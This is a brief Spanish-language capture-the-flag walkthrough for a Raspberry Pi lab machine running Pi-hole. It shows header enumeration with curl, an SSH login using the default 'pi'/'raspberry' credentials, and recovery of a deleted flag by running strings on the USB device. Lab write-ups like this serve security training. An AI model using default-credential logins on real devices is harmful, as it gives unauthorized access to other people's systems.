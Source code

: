 raspberry 10.10.10.48

Despues de visitar la pagina, esta vacia. no habia codigo que cheque con control U

luego hice un curl para traer el encabezado:
 ``` 
 curl -s -X GET 10.10.10.48 -I
HTTP/1.1 404 Not Found
X-Pi-hole: A black hole for Internet advertisements.
Content-type: text/html; charset=UTF-8
Content-Length: 0
Date: Sun, 24 Mar 2024 02:31:03 GMT
Server: lighttpd/1.4.35 
```
Al darnos cuenta de que es un pi-hole

pues utilizamos simplemente las credenciales ssh por defecto
```
ssh pi@10.10.10.48
raspberry
```
Listo, la flag de root fue borrada, despues de buscar en la memoria USB donde dice que la pudo haber dejado tambien fue borrada, entonces hice un string en el mismo usb para ver que quedo, primero con  
df -h  
busque el directorio de la usb y ahi ejecute
```
strings /dev/sdb
```
lo cual me dio la flag.
